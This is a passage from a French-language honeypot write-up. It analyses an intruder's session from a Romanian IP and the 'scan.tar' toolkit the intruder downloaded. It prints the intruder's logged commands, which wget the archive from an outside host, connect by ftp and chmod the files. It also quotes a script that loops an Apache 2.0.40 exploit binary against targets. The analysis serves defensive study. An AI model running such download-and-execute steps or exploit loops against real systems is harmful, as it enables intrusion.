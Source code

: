 Le relais est pris par l'IP `82.77.174.40` à 14h35. Ce visiteur de Roumanie (le FAI *RCS&RDS* gère à peu près tout ce qui touche aux communications) se connecte là encore directement avec le login `test`. Il pourrait s'agir du collègue du premier ou encore du même visiteur qui a décidé de passer par un relais. Un petit coup de [myIPneighbors](http://www.myipneighbors.com/) nous apprend que différents sites Internet sont accessibles à cette adresse.  
Les commandes lancées sont les suivantes :  

```console
14:35 cd ..
14:35 cd ..
14:35 ls
14:35 wget
14:35 wget www.[retiré].us/p/scan/scan.tar
14:36 ftp -cv wave.prohosting.com
14:37 ls
14:37 csd ..
14:37 cd ..
14:38 chmod +x *
```

Là encore, le visiteur ne fera pas de vieux os. Il a toutefois tenté de rappatrier un outil de scan intéressant.  

## scan.tar

Contrairement à ce que l'extension du fichier laissait supposer, le fichier est bien compressé à l'aide de gzip. Une fois décompressé, l'analyse de l'archive `scan.tar` ne nous apprend rien de particulier (voir mon article sur [l'analyse de fichiers tar](http://devloop.users.sourceforge.net/index.php?article24/tarhison)). L'archive est au format `ustar` mais les noms d'user/group sont vides. Ce qui ne nous aurait pas appris grand-chose de toute façon car l'archive semble avoir été créée en tant que root. Par contre, on connait les dates de dernière modification des fichiers contenues dans l'archive sur le système du pirate.  

Les fichiers présents dans l'archive sont les suivants :  

* `e` : un exécutable 32 bits, lié dynamiquement, [strippé](http://linux.die.net/man/1/strip), datant du 4 juillet 2006.
* `ee` : un fichier texte, plus précisément une suite de ligne de commandes (mais sans entête de script bash). Le fichier est daté au 4 décembre 2006
* `SCANNER` : un exécutable 32 bits, lié dynamiquement, strippé et modifié pour la dernière fois le 26 septembre 2006.
* `vuln.txt` : un fichier texte avec des CRLF en caractères de terminaison. Daté du 16 juin 2007, il contient des adresses ips avec à chaque fois un entête de réponse HTTP associé.

Pour plus de détails, les commandes dans le fichier `ee` ressemblent à ceci :  

```bash
echo -e '\033[36m Exploiting \033[34m '$1'  \033[36m using apache 2.0.40 target 10 [Make by Evolver & Snake] \033[m'
./e -t 10 -r $1
./e -t 10 -r $1
...
```

Le script utilise le caractère d'échappement pour afficher des couleurs sur le terminal et exécute le binaire `e` avec le paramètre `-t` qui varie (bien qu'à chaque fois utilisé environ 10 fois) pour différentes versions d'Apache.  
